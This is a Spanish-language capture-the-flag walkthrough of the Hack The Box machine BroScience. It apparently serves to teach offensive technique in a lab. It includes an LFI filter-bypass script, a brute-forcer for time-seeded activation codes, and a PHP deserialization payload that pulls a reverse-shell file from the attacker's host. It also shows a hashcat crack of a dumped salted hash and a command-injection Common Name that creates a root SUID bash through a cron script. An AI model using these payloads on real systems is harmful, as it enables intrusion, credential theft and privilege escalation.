




  
# BroScience (Linux)   - Español


Creador de la máquina: **[bmdyy](https://app.hackthebox.com/users/485051)**
### Writeup por **Tnr1112**

****

# Loot

## Page Users
* administrator
* bill
* michael
* john
* dmytro

## Mails
* administrator@broscience.htb
* bill@broscience.htb
* michael@broscience.htb
* john@broscience.htb
* dmytro@broscience.htb

## Usuarios
* bill
* postgres
* root

## Creds
*  **SSH:** bill:iluvhorsesandgym
*  **db_connect.php:** dbuser:RangeOf%Motion

****


# Common enumeration

## Nmap

| Port | Software | Version                        | Status |
| ---- | -------- | ------------------------------ | ------ |
| 22   | ssh      | OpenSSH 8.4p1 Debian 5+deb11u1 | open   |
| 80   | http     | Apache httpd 2.4.54            | open   |
| 443     | ssl/http          |                                 Apache httpd 2.4.54(Debian)| open        |

## Gobuster

### Directory listing
```bash
sudo gobuster dir -u 'http://broscience.htb' -t 200 -w '/usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt'
https://broscience.htb/images               (Status: 301) [Size: 319] [--> https://broscience.htb/images/]
https://broscience.htb/includes             (Status: 301) [Size: 321] [--> https://broscience.htb/includes/]
https://broscience.htb/manual               (Status: 301) [Size: 319] [--> https://broscience.htb/manual/]
https://broscience.htb/javascript           (Status: 301) [Size: 323] [--> https://broscience.htb/javascript/]
https://broscience.htb/styles               (Status: 301) [Size: 319] [--> https://broscience.htb/styles/]
```

### Subdomain listing

Nada por acá
****


# Webpages

## broscience.htb


## Código fuente broscience.htb



****
# www-data

Al intentar crearnos una cuenta, nos envía un código de activación al mail. El cuál nunca llega. Después veremos cómo activarla sin este mail.



## LFI

Leyendo el código fuente de la página, notamos que para obtener las imágenes utiliza el endpoint `/img.php?path=` con el parámetro `path`. Aparenta ser un **LFI**.



Si probamos esto nos tira que detectó un ataque.

Después de muchas pruebas, me dí cuenta de que si encodeamos el payload con **doble url encoding**, funciona.

Con la siguiente utilidad podremos visualizar los archivos en el servidor por medio del **LFI**.

```bash
#!/bin/bash
dobleUrlencode() {
    encode1=$(printf %s "$1" | od -An -tx1 -v -w${#1} | tr ' ' %)
    encode2=$(printf %s "$encode1" | od -An -tx1 -v -w${#encode1} | tr ' ' %)
    echo $encode2
}

varToEncode=$(dobleUrlencode $1)

curl https://broscience.htb/includes/img.php?path=$varToEncode --cookie "cookie" -k
```



Con la utilidad vamos a descargar los archivos **.php**.

```php
./lfi.sh ../includes/util.php
<?php
function generate_activation_code() {
    $chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";
    srand(time());
    $activation_code = "";
    for ($i = 0; $i < 32; $i++) {
        $activation_code = $activation_code . $chars[rand(0, strlen($chars) - 1)];
    }
    return $activation_code;
}
...[snip]...
```

La forma de generar el código de activación es vulnerable porque fija la semilla del random con la función `time()` que es conocida, por lo que siempre va a ser igual.

Creamos un script que genere estos códigos de activación con +- 5 segundos y que los pruebe.

```php
<?php
function generate_activation_code($time) {
    $chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";
    srand($time);
    $activation_code = "";
    for ($i = 0; $i < 32; $i++) {
        $activation_code = $activation_code . $chars[rand(0, strlen($chars) - 1)];
    }
    return $activation_code;
}

$time = time();
for($i=-5;$i<=5;$i++){
        $code = generate_activation_code($time+$i);
        shell_exec("curl -k https://broscience.htb/activate.php?code=".$code);
}
?>
```

Una vez que activamos la cuenta y loguearnos, vemos que la única diferencia con la página original es el balde de pintura. Al ver la redirección es a `swap_theme.php`. Vamos a descargarlo.


`swap_theme.php`

```php
<?php
session_start();

// Check if user is logged in already
if (!isset($_SESSION['id'])) {
    header('Location: /index.php');
}

// Swap the theme
include_once "includes/utils.php";
if (strcmp(get_theme(), "light") === 0) {
    set_theme("dark");
} else {
    set_theme("light");
}

// Redirect
if (!empty($_SERVER['HTTP_REFERER'])) {
    header("Location: {$_SERVER['HTTP_REFERER']}");
} else {
    header("Location: /index.php");
}
```

Vemos que utiliza la función set_theme de `includes/utils.php`

```php
<?php
...[snip]...
class UserPrefs {
    public $theme;

    public function __construct($theme = "light") {
		$this->theme = $theme;
    }
}

function get_theme() {
    if (isset($_SESSION['id'])) {
        if (!isset($_COOKIE['user-prefs'])) {
            $up_cookie = base64_encode(serialize(new UserPrefs()));
            setcookie('user-prefs', $up_cookie);
        } else {
            $up_cookie = $_COOKIE['user-prefs'];
        }
        $up = unserialize(base64_decode($up_cookie));
        return $up->theme;
    } else {
        return "light";
    }
}

function get_theme_class($theme = null) {
    if (!isset($theme)) {
        $theme = get_theme();
    }
    if (strcmp($theme, "light")) {
        return "uk-light";
    } else {
        return "uk-dark";
    }
}

function set_theme($val) {
    if (isset($_SESSION['id'])) {
        setcookie('user-prefs',base64_encode(serialize(new UserPrefs($val))));
    }
}

class Avatar {
    public $imgPath;

    public function __construct($imgPath) {
        $this->imgPath = $imgPath;
    }

    public function save($tmp) {
        $f = fopen($this->imgPath, "w");
        fwrite($f, file_get_contents($tmp));
        fclose($f);
    }
}

class AvatarInterface {
    public $tmp;
    public $imgPath; 

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}
?>
```

Vemos que determina el tema seleccionado por medio de la cookie `user-prefs` que está encodeada en **base64**.

Al decodificarla obtenemos un objeto serializado de **php**.

`O:9:"UserPrefs":1:{s:5:"theme";s:5:"light";}`

Al momento de utilizar la función `get_theme()` deserializa el objeto. Esto es vulnerable.

[Explicación php deserialization (inglés)](https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a)

En resumidas cuentas, si la class del objeto serializado implementa algún método llamado `__wakeup()` o `__destruct()`, esos métodos se ejecutarán al momento de deserializar el objeto.
En nuestro caso, tenemos dos clases **Avatar** y **AvatarInterface**. La de **AvatarInterface** tiene el método `__wakeup()` que necesitamos.

Lo que hace es, instancia el objeto **Avatar** pasándole un `imgPath`, este va a crear el archivo con el nombre del valor del `imgPath`. Después, va a guardar lo que le pasemos en `tmp`.

Con el siguiente script, crearemos unas cookies para explotar el **php deserialization attack**

```php
<?php
class Avatar {
    public $imgPath;

    public function __construct($imgPath) {
        $this->imgPath = $imgPath;
    }

    public function save($tmp) {
        $f = fopen($this->imgPath, "w");
        fwrite($f, file_get_contents($tmp));
        fclose($f);
    }
}

class AvatarInterface {
    public $tmp;
    public $imgPath;

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}

$avatarObject = new AvatarInterface;
$avatarObject->tmp = "http://10.10.14.129/revShellTnr1112.php";
$avatarObject->imgPath = "revShellTnr1112.php";

echo(base64_encode(serialize($avatarObject)));
?>
```

Abrimos un server en nuestra computadora.

Agregamos las **cookies** a nuestro navegador, recargamos y entramos en `https://broscience/revShellTnr1112.php` para entablar una **reverse shell** con el usuario **www-data**.

----
# Bill

Escribimos este archivo para ver los usuarios en la **db**.

```php
<?php
include_once 'includes/db_connect.php';
$res = pg_query($db_conn, 'SELECT * FROM users');
print_r(pg_fetch_all($res));
?>
```

```php
Array
(
    [0] => Array
        (
            [id] => 1
            [username] => administrator
            [password] => 15657792073e8a843d4f91fc403454e1
            [email] => administrator@broscience.htb
            [activation_code] => OjYUyL9R4NpM9LOFP0T4Q4NUQ9PNpLHf
            [is_activated] => t
            [is_admin] => t
            [date_created] => 2019-03-07 02:02:22.226763-05
        )
    [1] => Array
        (
            [id] => 2
            [username] => bill
            [password] => 13edad4932da9dbb57d9cd15b66ed104
            [email] => bill@broscience.htb
            [activation_code] => WLHPyj7NDRx10BYHRJPPgnRAYlMPTkp4
            [is_activated] => t
            [is_admin] => f
            [date_created] => 2019-05-07 03:34:44.127644-04
        )
    [2] => Array
        (
            [id] => 3
            [username] => michael
            [password] => bd3dad50e2d578ecba87d5fa15ca5f85
            [email] => michael@broscience.htb
            [activation_code] => zgXkcmKip9J5MwJjt8SZt5datKVri9n3
            [is_activated] => t
            [is_admin] => f
            [date_created] => 2020-10-01 04:12:34.732872-04
        )
    [3] => Array
        (
            [id] => 4
            [username] => john
            [password] => a7eed23a7be6fe0d765197b1027453fe
            [email] => john@broscience.htb
            [activation_code] => oGKsaSbjocXb3jwmnx5CmQLEjwZwESt6
            [is_activated] => t
            [is_admin] => f
            [date_created] => 2021-09-21 11:45:53.118482-04
        )
    [4] => Array
        (
            [id] => 5
            [username] => dmytro
            [password] => 5d15340bded5b9395d5d14b9c21bc82b
            [email] => dmytro@broscience.htb
            [activation_code] => 43p9iHX6cWjr9YhaUNtWxEBNtpneNMYm
            [is_activated] => t
            [is_admin] => f
            [date_created] => 2021-08-13 10:34:36.226763-04
        )
)
```

`db_connect.php`

```php
<?php
$db_host = "localhost";
$db_port = "5432";
$db_name = "broscience";
$db_user = "dbuser";
$db_pass = "RangeOfMotion%777";
$db_salt = "NaCl";

$db_conn = pg_connect("host={$db_host} port={$db_port} dbname={$db_name} user={$db_user} password={$db_pass}");

if (!$db_conn) {
    die("<b>Error</b>: Unable to connect to database");
}
?>
```

Vemos que la salt es `NaCl`

Creamos el archivo bill.hash
`13edad4932da9dbb57d9cd15b66ed104:NaCl`

Y lo intentamos crackear con hascat

```bash
./hashcat.exe -a 0 -m 20 bill.hash rockyou.txt
13edad4932da9dbb57d9cd15b66ed104:NaCl:iluvhorsesandgym
```

Obtenemos credenciales válidas para conectarnos por **SSH** y obtener `user.txt`

----
# root

Buscando en la carpeta `/opt` encontramos el archivo `renew_cert.sh`

```bash
cat /opt/renew_cert.sh
#!/bin/bash

if [ "$#" -ne 1 ] || [ $1 == "-h" ] || [ $1 == "--help" ] || [ $1 == "help" ]; then
    echo "Usage: $0 certificate.crt";
    exit 0;
fi

if [ -f $1 ]; then

    openssl x509 -in $1 -noout -checkend 86400 > /dev/null

    if [ $? -eq 0 ]; then
        echo "No need to renew yet.";
        exit 1;
    fi

    subject=$(openssl x509 -in $1 -noout -subject | cut -d "=" -f2-)

    country=$(echo $subject | grep -Eo 'C = .{2}')
    state=$(echo $subject | grep -Eo 'ST = .*,')
    locality=$(echo $subject | grep -Eo 'L = .*,')
    organization=$(echo $subject | grep -Eo 'O = .*,')
    organizationUnit=$(echo $subject | grep -Eo 'OU = .*,')
    commonName=$(echo $subject | grep -Eo 'CN = .*,?')
    emailAddress=$(openssl x509 -in $1 -noout -email)

    country=${country:4}
    state=$(echo ${state:5} | awk -F, '{print $1}')
    locality=$(echo ${locality:3} | awk -F, '{print $1}')
    organization=$(echo ${organization:4} | awk -F, '{print $1}')
    organizationUnit=$(echo ${organizationUnit:5} | awk -F, '{print $1}')
    commonName=$(echo ${commonName:5} | awk -F, '{print $1}')

    echo $subject;
    echo "";
    echo "Country     => $country";
    echo "State       => $state";
    echo "Locality    => $locality";
    echo "Org Name    => $organization";
    echo "Org Unit    => $organizationUnit";
    echo "Common Name => $commonName";
    echo "Email       => $emailAddress";

    echo -e "\nGenerating certificate...";
    openssl req -x509 -sha256 -nodes -newkey rsa:4096 -keyout /tmp/temp.key -out /tmp/temp.crt -days 365 <<<"$country
    $state
    $locality
    $organization
    $organizationUnit
    $commonName
    $emailAddress
    " 2>/dev/null

    /bin/bash -c "mv /tmp/temp.crt /home/bill/Certs/$commonName.crt"
else
    echo "File doesn't exist"
    exit 1;
fi
```

Lo que hace este script es:
* Agarra el certificado pasado por el argumento 1 al momento de ejecutar el comando.
* Se fija si pasó más de un día desde que se creó.
* Obtiene los datos del certificado y los guarda en otro en la ruta `/tmp/temp.cert`
*  Después mueve el certificado creado a `/home/bill/Certs/$commonName.crt`, acá viene el problema porque nosotros podemos controlar el valor de `$commonName` injectando comandos.
* El valor de `$commonName` lo podemos controlar con el "Common Name" al momento de crear nuestro certificado.

Vamos a utilizar **[pspy64](https://github.com/DominicBreuker/pspy)** para ver los comandos ejecutados por otros usuarios como cron jobs, argumentos pasados a los comandos, etc.

```bash
...[snip]...
2023/03/20 21:46:01 CMD: UID=0     PID=8694   | /usr/sbin/CRON -f 
2023/03/20 21:46:01 CMD: UID=0     PID=8695   | /bin/sh -c /root/cron.sh 
2023/03/20 21:46:01 CMD: UID=0     PID=8696   | /bin/bash /root/cron.sh 
2023/03/20 21:46:01 CMD: UID=0     PID=8697   | /bin/bash /root/cron.sh 
2023/03/20 21:46:01 CMD: UID=0     PID=8698   | /bin/bash -c /opt/renew_cert.sh /home/bill/Certs/broscience.crt 
...[snip]...
```

Vemos que está croneado el comando `/bin/bash -c /opt/renew_cert.sh /home/bill/Certs/broscience.crt` que ejecuta **root**. 

Creamos el certificado malicioso. 

```bash
openssl req -x509 -sha256 -nodes -newkey rsa:4096 -keyout /tmp/temp.key -out /tmp/temp.crt -days 1        
Generating a RSA private key
..................................................++++
........................................................++++
writing new private key to '/tmp/temp.key'
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:.
State or Province Name (full name) [Some-State]:.
Locality Name (eg, city) []:.
Organization Name (eg, company) [Internet Widgits Pty Ltd]:.
Organizational Unit Name (eg, section) []:.
Common Name (e.g. server FQDN or YOUR name) []:$(cp /bin/bash /tmp/bashTnr1112 && chmod +s /tmp/bashTnr1112)
Email Address []:.
```

Al ponerlo en `/home/bill/Certs/broscience.crt`, el **root** por medio de **cron** va ejecutar `/bin/bash -c /opt/renew_cert.sh /home/bill/Certs/broscience.crt` y ejecutará nuestro payload para darle permisos **SUID** desde **root** a la **bash**.

Si ejecutamos esa **bash** con el parámetro -p le permite a bash mantener el ID de usuario efectivo con el que se inicia, mientras que sin él, establecerá el uid efectivo en el uid real (su usuario). Esto permitirá que el bit setuid sea efectivo al permitir que bash retenga al usuario para el que está setuid. Por lo tanto, podremos ejecutar esta bash como **root**.

```bash
bill@broscience:~/Certs$ wget http://10.10.14.7/temp.crt
--2023-03-21 21:57:23--  http://10.10.14.7/temp.crt
Connecting to 10.10.14.7:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1911 (1.9K) [application/x-x509-ca-cert]
Saving to: 'temp.crt'

temp.crt                                                       100%[===================================================================================================================================================>]   1.87K  --.-KB/s    in 0.007s  

2023-03-21 21:57:24 (276 KB/s) - 'temp.crt' saved [1911/1911]

bill@broscience:~/Certs$ mv temp.crt broscience.crt
bill@broscience:~/Certs$ /tmp/bashTnr1112 -p
bashTnr1112-5.1# id
uid=1000(bill) gid=1000(bill) euid=0(root) egid=0(root) groups=0(root),1000(bill)
bashTnr1112-5.1# cat /root/root.txt 
2f6eaecb891ab2326e075c368ee20785
```

Y listo, obtenemos una **shell** con **root** :).

----
